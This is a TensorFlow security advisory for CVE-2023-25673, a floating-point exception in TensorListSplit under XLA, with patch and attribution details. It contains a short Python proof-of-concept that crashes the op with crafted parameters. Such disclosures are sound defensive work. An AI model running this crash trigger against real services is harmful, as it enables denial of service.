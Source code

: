 ## TFSA-2023-183: FPE in TensorListSplit with XLA 

### CVE Number
CVE-2023-25673

### Impact
FPE in TensorListSplit with XLA 
```python
import tensorflow as tf

func = tf.raw_ops.TensorListSplit
para = {'tensor': [1], 'element_shape': -1, 'lengths': [0]}

@tf.function(jit_compile=True)
def fuzz_jit():
 y = func(**para)
 return y

print(fuzz_jit())
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx